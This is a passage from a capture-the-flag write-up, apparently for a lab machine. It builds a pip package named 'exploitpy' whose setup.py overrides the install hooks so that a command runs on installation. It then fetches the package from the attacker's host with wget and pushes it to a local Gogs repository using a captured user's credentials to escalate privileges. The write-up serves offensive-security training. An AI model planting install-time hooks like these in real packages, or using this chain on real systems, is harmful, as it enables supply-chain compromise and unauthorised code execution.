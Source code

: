 ```


class RunInstallCommand(install):
    def run(self):
        RunCommand()
        install.run(self)

setup(
    name = "exploitpy",
    version = "0.0.1",
    license = "MIT",
    packages=find_packages(),
    cmdclass={
        'install' : RunInstallCommand,
        'egg_info': RunEggInfoCommand
    },
)

```

```
(Host)$ pip3 install setuptools
(Host)$ pip3 install build

(Host)$ python3 -m build

```
Credit: https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/pip-download-code-execution/

After building you'll get a `exploitpy-0.0.1.tar.gz` file you want to upload it to localhost port 3000, but wait we don't know what's over there so let's find out. If you're still running that chisel session you can run it on your browser and see a Gogs which is a git service, so I logged in with john's creds and tried to upload it from there but it didn't work, so I thought of another idea use the git commad to upload it and thats how I did it:

```

john@only4you:/dev/shm$ git clone http://127.0.0.1:3000/john/Test.git
john@only4you:/dev/shm$ cd Test
john@only4you:/dev/shm/Test$ wget http://10.10.14.120/exploitpy-0.0.1.tar.gz
john@only4you:/dev/shm/Test$ git status
On branch master
Your branch is up to date with 'origin/master'.

Changes to be committed:
  (use "git restore --staged <file>..." to unstage)
        new file:   exploitpy-0.0.1.tar.gz

john@only4you:/dev/shm/Test$ git config --global user.name "john"
john@only4you:/dev/shm/Test$ git config --global user.email "john@only4you.htb"
john@only4you:/dev/shm/Test$ git commit -m "Update"
[master 328d708] Update
 1 file changed, 0 insertions(+), 0 deletions(-)
 create mode 100644 exploitpy-0.0.1.tar.gz
john@only4you:/dev/shm/Test$ git push
Username for 'http://127.0.0.1:3000': john
Password for 'http://john@127.0.0.1:3000': 
Enumerating objects: 4, done.
Counting objects: 100% (4/4), done.
Delta compression using up to 2 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 1.27 KiB | 1.27 MiB/s, done.
Total 3 (delta 0), reused 0 (delta 0)
To http://127.0.0.1:3000/john/Test.git 
```